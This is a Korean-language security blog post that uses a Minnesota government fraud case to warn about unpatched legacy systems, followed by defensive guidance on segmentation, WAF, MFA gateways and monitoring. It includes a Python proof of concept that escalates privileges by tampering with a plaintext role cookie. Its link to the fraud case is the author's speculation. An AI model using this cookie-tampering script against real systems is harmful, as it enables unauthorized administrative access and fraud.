


## 서론

미네소타 주 정부의 사이트에서 발생한 대규모 사기(Fraud) 사건은 단순히 내부자의 부정직함이나 운영상의 실수로 치부하기엔 too naive합니다. 수백만 달러의 세금이 빠져나간 배경에는 수년간 보안 패치가 이루어지지 않은 '구형 시스템(Legacy System)'이라는 거대한 블랙홀이 존재했습니다. 현장에서 침투 테스터로서 우리가 가장 두려워하는 것은 첨단 AI 보안 솔루션을 뚫는 APT 공격이 아닙니다. 바로 아무도 방치하지 않는, 지뢰가 묻혀있지만 아무도 지도를 가지고 있지 않은 '구형 인프라' 그 자체입니다.

왜 이 주제가 중요할까요? 많은 조직이 "시스템이 돌아가고 있으니 건드리지 말자"라는 전통적인 보수적 접근 방식을 취합니다. 하지만 보안의 관점에서 **'Working'은 'Secure'가 아닙니다.** 지원이 종료된(End-of-Life, EOL) 운영체제나 프레임워크는 공격자들에게 있어 지상 낙원과 다름없습니다. 이 글에서는 미네소타 사례를 기술적 관점에서 해부하고, 구형 시스템이 어떻게 사기(Fraud)의 핵심 경로가 되는지, 그리고 우리가 당장 무엇을 해야 하는지 현장 감각에 입각하여 분석하겠습니다.

## 본론

### 구형 시스템의 기술적 취약점 분석

Legacy System의 가장 치명적인 문제는 **'보안의 부재'**가 아니라 **'시대착오적인 보안 메커니즘'**입니다. 10년 전, 혹은 20년 전에 개발된 시스템은 인터넷이 오늘날처럼 악의적인 공격자들로 가득 차지 않았던 시절의 설계 사상을 따르고 있습니다. 대표적으로 하드코딩된 자격 증명(Hardcoded Credentials), 암호화되지 않은 통신(Plain Text HTTP), 취약한 암호화 알고리즘(DES, MD5 등)이 그것입니다.

공격자는 이러한 시스템을 발견하면 즉시 자동화된 스캐닝 도구를 사용하여 CVE(Common Vulnerabilities and Exposures) 데이터베이스와 대조합니다. 미네소타 사례와 같은 구형 웹 애플리케이션은 최신 LFI(Local File Inclusion)나 SQL Injection 방어 로직이 결여되어 있을 확률이 90% 이상입니다.

아래는 구형 시스템을 노린 전형적인 사기(Fraud) 및 데이터 유출 공격 흐름을 시각화한 것입니다.



이 다이어그램에서 가장 중요한 점은 'Exploit Known CVE' 단계입니다. 최신 시스템은 이 단계에서 WAF(Web Application Firewall)나 IPS가 침입을 차단하겠지만, 구형 시스템은 방어막이 없어 속수무책으로 당합니다.

### 현대적 보안 통제력 비교

구형 시스템과 현대적 시스템이 외부 공격에 대응하는 방식에는 결정적인 차이가 있습니다. 이를 이해하지 못하면 단순히 "방화벽만 설치하면 된다"는 오해를 낳게 됩니다.

| 비교 항목 | 구형 시스템 (Legacy) | 현대적 시스템 (Modern) |
| :--- | :--- | :--- |
| **인증 방식** | 정적 자격 증명 (Static ID/PW), MFA 미지원 | MFA, OAuth 2.0, SAML, JWT 기반 토큰 |
| **통신 프로토콜** | HTTP, TLS 1.0/1.1 (취약) | 강제 HTTPS, TLS 1.3 |
| **입력 검증** | 클라이언트 사이드 위주 또는 미구현 | 서버 사이드 강력한 밸리데이션, CSP |
| **패치 관리** | 수동, 비정기, 패치 중단 (EOL) | 자동화된 CI/CD 파이프라인, 즉시 패치 |
| **로그 및 모니터링** | 텍스트 파일 기반, 실시간 분석 불가 | SIEM 연동, 이상 징후 실시간 탐지 |

### 시나리오: 구형 웹 애플리케이션의 인증 우회

방어 목적을 위해, 실제 현장에서 발생할 수 있는 구형 시스템의 취약점을 시뮬레이션해보겠습니다. 많은 구형 시스템은 쿠키(Cookie)에 사용자의 Role이나 권한 정보를 암호화하지 않은 상태로 저장하거나, 예측 가능한 세션 ID를 사용합니다.

다음은 파이썬을 사용하여 구형 시스템의 취약한 세션 관리를 테스트하는 개념 증명(PoC) 코드입니다.

```python
import requests

# ⚠️ 경고: 이 코드는 보안 교육 및 자체 시스템 진단 목적으로만 사용하세요.
# 타인의 시스템에 무단으로 실행하는 것은 불법입니다.

TARGET_URL = "http://legacy-vulnerable-system.local/admin"
LEGACY_COOKIE_NAME = "user_role"

def test_insecure_session_management():
    session = requests.Session()
    
    # 시나리오: 공격자는 일반 사용자로 로그인하여 쿠키를 획득함
    login_data = {'username': 'hacker', 'password': 'password123'}
    response = session.post("http://legacy-vulnerable-system.local/login", data=login_data)
    
    # 쿠키 획득
    cookies = session.cookies.get_dict()
    print(f"[+] Initial Cookies: {cookies}")

    # 시나리오: 구형 시스템은 권한 정보를 쿠키 값에 평문으로 저장함 (예: role=user)
    # 공격자는 이 값을 'admin'으로 변조하여 요청을 재전송함
    if LEGACY_COOKIE_NAME in cookies:
        original_role = cookies[LEGACY_COOKIE_NAME]
        print(f"[+] Detected Role: {original_role}")
        
        # 쿠키 변조 (Cookie Tampering)
        modified_cookies = cookies.copy()
        modified_cookies[LEGACY_COOKIE_NAME] = "admin" 
        
        # 관리자 페이지 접근 시도
        admin_response = requests.get(TARGET_URL, cookies=modified_cookies)
        
        if admin_response.status_code == 200 and "Dashboard" in admin_response.text:
            print(f"[!] 🚨 CRITICAL VULNERABILITY DETECTED! 🚨")
            print(f"[!] Successfully bypassed authentication via Cookie Tampering.")
            print(f"[!] Fraud Risk: Attacker can now approve transactions or modify data.")
        else:
            print("[-] Access Denied. System seems to handle session validation securely.")
    else:
        print("[-] Target cookie not found.")

if __name__ == "__main__":
    test_insecure_session_management()
```

이 코드는 단순한 예시지만, 실제 구형 시스템에서는 `user_level=1`을 `9`로 바꾸거나 `is_admin=False`를 `True`로 변경하는 것만으로 관리자 권한을 탈취하는 사기(Fraud)가 가능했습니다. 미네소타 사례 역시 이러한 인증 우회나 권한 상승 취약점을 악용했을 가능성이 높습니다.

### 구형 인프라 보호를 위한 실무 가이드 (Step-by-Step)

예산 문제나 호환성 이슈 때문에 당장 시스템을 교체할 수 없다면, **'보안 컨테이너화(Security Containerization)'** 전략을 채택해야 합니다. 구형 시스템을 직접 방어하는 것이 아니라, 그 주변을 현대적인 보안 계층으로 감싸는 것입니다.

1.  **자산 발굴 및 식별 (Inventory)**     *   현재 운영 중인 모든 소프트웨어의 버전을 스캔합니다.     *   EOL(End-of-Life) 상태인 운영체제(예: Windows Server 2008, CentOS 6)를 명시합니다.

2.  **네트워크 세분화 (Network Segmentation)**     *   구형 시스템을 격리된 VLAN(Virtual Local Area Network)에 배치합니다.     *   인터넷에서 구형 시스템으로의 **직접적인 접근을 차단**합니다.

3.  **역방향 프록시 및 WAF 도입 (Reverse Proxy & WAF)**     *   사용자는 현대적인 보안 기능이 탑재된 WAF(웹 방화벽)나 역방향 프록시(Nginx, Apache)만 접속하게 합니다.     *   프록시가 암호화(HTTPS)를 처리하고, 백엔드의 구형 시스템과는 내부망에서 통신합니다.

4.  **강력한 인증 게이트웨이 구축 (Strong Auth Gateway)**     *   구형 애플리케이션 자체는 MFA(다중 인증)를 지원하지 않더라도, 앞단의 IdP(Identity Provider)나 프록시에서 MFA를 강제합니다.

5.  **모니터링 및 로깅 (Monitoring)**     *   구형 시스템이 직접 로그를 남기지 못하더라도, 네트워크 트래픽이나 프록시 로그를 SIEM(Security Information and Event Management)으로 전송하여 비정상적인 행위를 탐지합니다.



이 아키텍처의 핵심은 레거시 시스템을 인터넷이라는 '거친 바다'로부터 격리된 '수족관' 안에 가두는 것입니다.

## 결론

미네소타 주의 사례에서 보듯, 구형 시스템(Legacy Systems)은 단순히 '느린' 시스템이 아니라 사기(Fraud)와 데이터 유출을 위한 '뚫린 창문'입니다. 공격자들은 항상 가장 약한 고리를 노리며, 보안 업데이트가 중단된 시스템은 그야말로 손쉬운 타겟입니다.

전문가로서의 인사이트는 다음과 같습니다: **보안의 핵심은 최신 기술을 도입하는 것이 아니라, 취약점을 관리하는 능력입니다.** 만약 당장 레거시 시스템을 제거할 수 없다면, 반드시 **제로 트러스트(Zero Trust)** 원칙을 도입하여 해당 시스템을 격리하고, 주변에 현대적인 보안 계층을 구축하여 방어해야 합니다. "아직 돌아가니까 괜찮아"라는 생각은 해커들에게 "어서 오세요"라고 문을 활짝 열어주는 것과 같습니다.

지금 당신의 서버 랙을 확인하세요. 5년 이상 된 서버가 인터넷에 그대로 노출되어 있지는 않나요? 그것이 바로 가장 먼저 점검해야 할 보안 위협입니다.

### 참고자료

- [NIST SP 800-53: Security and Privacy Controls for Information Systems](https://csrc.nist.gov/projects/sp-800-53)

- [OWASP Top 10 - A01:2021 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

- [CISA - End-of-Support (EOS) Best Practices](https://www.cisa.gov/eos-best-practices)
